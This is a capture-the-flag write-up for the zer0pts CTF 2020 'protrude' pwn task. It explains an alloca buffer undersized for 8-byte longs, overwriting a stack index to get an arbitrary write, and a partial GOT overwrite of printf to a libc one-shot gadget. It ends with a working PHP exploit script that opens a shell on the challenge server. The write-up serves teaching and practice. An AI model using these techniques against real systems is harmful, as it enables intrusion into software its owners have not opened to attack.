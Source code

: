 # protrude - zer0pts CTF 2020 (pwn, 525p, 22 solved)
## Introduction

protrude is a pwn task.

An archive containing a binary, its source code and a libc is provided.

The binary asks the user for up to 22 numbers and calculates the sum of these
numbers.

## Vulnerability

The binary allocates room on the stack with `alloca`. It ensure that there is no
more than 22 numbers and allocates `n * 4` bytes.

It then reads `n` long integers, and calculates the result.

The vulnerability lies in the fact that a long integer does not have a size of
4. The allocated buffer is half too short to hold every numbers.

The variables on the stack are ordered this way:
```c
void  *rip;
void  *rbp;
void  *rbx;
long   canary;
long  *array;
long   sum;
size_t i;
long   array[k];
long   array[k - 1];
long   array[k - 2];
long   array[k - 3];
...
```

Writing past the array will overwrite the index at which the user's input is
read. It is possible to write anywhere by overwriting this index to point to the
`array` pointer, and overwrite it in turn with an other pointer.

## Exploitation

It is not possible to ROP because it is not possible to leak the canary (or any
address) : the program quits once the sum is printed, with no way to come back
to the main loop.

It is possible however to overwrite the global offset table. Replacing a pointer
with a pointer to the libc because the libc is subject to ASLR.

However, it is possible to overwrite partially one of the pointer and have a
reduced probability of guessing the ASLR.

One possibility is to partially overwrite the last 3 bytes of the pointer to
`printf` with `0x04526A`, which points to a one-shot gadget (satisfied when
`RSP + 0x30` is NULL). This strategy should work once every 4096 times on
average.

**Flag**: `zer0pts{0ops_long_is_8_byt3s_l0ng}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
require_once("Socket.php");

$t = new Socket("13.231.207.73", 9005);

/* Speed up things by sending every messages at once */
$t->write(str_pad("22", 0x20));
$t->write(str_repeat("0", 0x20 * 14));
$t->write(str_pad("15", 0x20));
$t->write(str_pad(0x00601030 - 0x11 * 8 - 5, 0x20));
$t->write(str_pad(0x04526A << (5 * 8), 0x20));
$t->write("echo shell\n");

/* Read every responses */
$t->expect("n = ");
for($i = 0; $i < 15; $i++)
	$t->expect("num[" . ($i + 1) . "] = ");
$t->expect("num[17] = ");
$t->expect("num[18] = ");
$t->expectLine("shell");

printf("[*] Shell\n");
$t->pipe();
```
